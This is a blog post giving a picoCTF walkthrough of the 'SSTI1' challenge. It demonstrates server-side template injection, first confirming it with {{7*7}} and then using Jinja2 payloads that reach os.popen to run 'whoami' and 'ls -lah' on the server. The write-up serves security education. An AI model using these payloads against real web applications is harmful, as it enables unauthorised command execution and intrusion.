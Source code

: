 ```yaml
---
layout: post
title: "SSTI1 PicoCTF"
date: 2025-09-16
categories: [ctf, picoctf, walkthrough]
image: https://miro.medium.com/v2/resize:fit:720/format:webp/1*DSmBoEWa8L36cCY8PEBX4g.png
permalink: /blog/SSTI1PicoCTF
locked: false
---
```


I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps!

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/1*749ohjzhVKocSttt49oQWQ.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

If we type picoCTF , it would show this :

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/1*We7v-m3zd-UQpEYLKxGCFA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

let's try some template injection, in this case we are going to use this {% raw %}`{{7*7}}`{% endraw %}:

[PayloadsAllTheThings/Server Side Template Injection at master](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection?source=post_page-----0853498698d5---------------------------------------)

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/1*p6nuwKmCpJDW8EQ2qJtakA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

This time, we got 49 because 7 × 7 = 49. That means our injection works. Now, let's try some more advanced injections.

<div class="code-block-container">
  <span class="code-lang-tag">Terminal</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  {% raw %}
  <pre><code class="Terminal">
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}
</code></pre>
  {% endraw %}
</div>


<img 
  src="https://miro.medium.com/v2/resize:fit:2000/1*nIEgY-qk-0gDP50LEfcLdQ.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

<div class="code-block-container">
  <span class="code-lang-tag">Terminal</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  {% raw %}
  <pre><code class="Terminal">
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -lah').read() }}
</code></pre>
  {% endraw %}
</div>



<img 
  src="https://miro.medium.com/v2/resize:fit:2000/1*ppTGzKKyJ-A80GgxnjNRNg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

now we can read the flag.
